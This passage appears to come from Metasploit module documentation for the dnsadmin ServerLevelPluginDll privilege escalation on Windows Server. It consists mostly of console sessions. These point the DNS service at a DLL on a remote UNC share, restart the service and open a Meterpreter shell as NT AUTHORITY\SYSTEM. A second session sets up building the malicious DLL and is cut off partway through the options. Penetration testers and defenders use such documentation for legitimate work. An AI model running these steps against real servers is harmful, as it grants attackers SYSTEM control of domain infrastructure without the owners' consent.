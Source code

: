 Once the DLL has been generated, one can proceed with the actual exploit:
```
msf6 exploit(windows/local/dnsadmin_serverlevelplugindll) > set MAKEDLL false
MAKEDLL => false
msf6 exploit(windows/local/dnsadmin_serverlevelplugindll) > set DLLPATH \\\\172.17.168.195\\test
DLLPATH => \\172.17.168.195\test
msf6 exploit(windows/local/dnsadmin_serverlevelplugindll) > set DLLNAME mp4.dll
DLLNAME => mp4.dll
msf6 exploit(windows/local/dnsadmin_serverlevelplugindll) > exploit

[*] Checking service state...
[*] Using user-provided UNC path.
[!] Entering danger section...
[*] Modifying ServerLevelPluginDll to point to \\172.17.168.195\test\mp4.dll...
[+] Registry property serverlevelplugindll successfully reset.
[*] Restarting the DNS service...
[*] Started bind TCP handler against 172.17.169.123:6688
[*] Sending stage (200262 bytes) to 172.17.169.123
[*] Meterpreter session 4 opened (0.0.0.0:0 -> 172.17.169.123:6688) at 2020-09-09 15:06:33 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-M5JU6L5RA9L
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : RAPID7
Logged On Users : 12
Meterpreter     : x64/windows
meterpreter > 
```

### Windows Server 2019 Standard x64, just creating DLL
```
msf6 exploit(multi/handler) > use exploit/windows/local/dnsadmin_serverlevelplugindll 
[*] Using configured payload windows/x64/meterpreter/bind_tcp
msf6 exploit(windows/local/dnsadmin_serverlevelplugindll) > set SESSION 3 
SESSION => 3
msf6 exploit(windows/local/dnsadmin_serverlevelplugindll) > set PAYLOAD windows/x64/meterpreter/bind_tcp
PAYLOAD => windows/x64/meterpreter/bind_tcp
msf6 exploit(windows/local/dnsadmin_serverlevelplugindll) > set LPORT 6688
LPORT => 6688
msf6 exploit(windows/local/dnsadmin_serverlevelplugindll) > set DLLNAME mp4.dll
DLLNAME => mp4.dll
msf6 exploit(windows/local/dnsadmin_serverlevelplugindll) > set MAKEDLL true
MAKEDLL => true
msf6 exploit(windows/local/dnsadmin_serverlevelplugindll) > show options

Module options (exploit/windows/local/dnsadmin_serverlevelplugindll):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   AVTIMEOUT  60               yes       Time to wait for AV to potentially notice the DLL file we dropped, in seconds.
   DLLNAME    mp4.dll          yes       DLL name (default: msf.dll)
   DLLPATH    %TEMP%           yes       Path to DLL. Can be a UNC path. (default: %TEMP%)
   MAKEDLL    true             yes       Just create the DLL, do not exploit.
   SESSION    3                yes       The session to run this module on.


Payload options (windows/x64/meterpreter/bind_tcp):

```